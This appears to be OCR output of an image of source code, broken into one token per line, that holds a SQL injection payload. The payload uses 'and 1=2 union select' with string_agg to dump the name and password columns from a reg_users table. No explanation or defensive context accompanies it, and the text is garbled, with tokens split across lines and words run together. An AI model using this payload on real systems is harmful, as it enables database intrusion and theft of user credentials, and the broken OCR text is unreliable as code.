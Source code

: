 and  
1  
=  
2  
unionselect  
null  
,  
string_agg  
(  
name  
,  
','  
),  
string_agg  
(  
password  
,  
','  
),  
null  
from  
 reg_users  
  
  
